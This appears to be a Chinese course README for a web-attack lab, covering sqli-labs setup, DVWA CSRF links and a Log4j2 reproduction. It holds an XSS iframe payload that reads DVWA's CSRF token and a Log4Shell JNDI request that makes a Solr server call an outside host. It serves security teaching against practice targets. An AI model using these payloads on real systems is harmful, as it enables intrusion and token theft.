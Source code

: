 ## Web攻击实验
建议找队友一块做，工作量略大。

主要是写文档很烦，最好是有人喜欢写文档就专门写文档，然后懂技术的搭建环境，合理分工。

嫌麻烦可以去网上找打过对应靶场的教程copy直接截图，专注于写文档。

## 学习Web攻击
### SQL-ILabs 
搭建靶场可以使用该目录下`sqli-labs-deploy`目录中的 Dockerfile 和 docker-compose.yml。

```shell
sudo docker-compose up -d

sudo dockerps

sudo docker-compose down
```

参考：[SQL注入靶场sqli-labs 1-65关全部通关教程 ](https://www.cnblogs.com/-qing-/p/11610385.html)

### DVWA
参考：[[超详细DVWA-CSRF全等级通关教程]都是干货，你确定不看看？](https://cloud.tencent.com/developer/article/1825357)

High级别的CSRF需要结合XSS来搞，方便偷token值：
```html
<iframe src="../csrf/"onload=alert(frames[0].document.getElementsByName('user_token')[0].value)></iframe>
```

### Apache Log4J2漏洞复现（选做）
参考：[vulhub](https://github.com/vulhub/vulhub/tree/master/log4j/CVE-2021-44228)

`${jndi:dns://${sys:java.version}.example.com}`是利用JNDI发送DNS请求的Payload，我们将其作为管理员接口的action参数值发送如下数据包：

```http
GET /solr/admin/cores?action=${jndi:ldap://${sys:java.version}.example.com} HTTP/1.1
Host: your-ip:8983
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Connection: close
```